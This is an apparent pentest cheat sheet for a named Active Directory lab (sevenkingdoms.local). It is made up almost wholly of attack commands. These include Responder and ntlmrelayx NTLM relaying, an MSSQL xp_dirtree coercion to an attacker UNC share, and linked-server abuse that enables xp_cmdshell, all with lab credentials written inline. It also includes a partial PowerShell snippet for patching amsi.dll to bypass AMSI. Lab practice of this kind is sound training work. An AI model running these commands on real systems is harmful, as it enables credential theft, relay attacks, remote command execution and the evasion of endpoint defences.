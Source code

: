## Coerce and relay
start responder  or ntlm-relat
```
responder -I vboxnet0

ntlmrelayx -tf smb_targets.txt -of netntlm -smb2support -socks  
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 
```

connect and run xp_dirtree command
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/hodor:hodor@castelblack.north.sevenkingdoms.local
exec master.sys.xp_dirtree '\\192.168.56.1\demontlm',1,1
```

## trusted links
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local -show
enum_links

EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin


use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami

```

# Privesc
## Disable AMSI
https://amsi.fail/

### Bypass at .net AMSI level 
https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32
```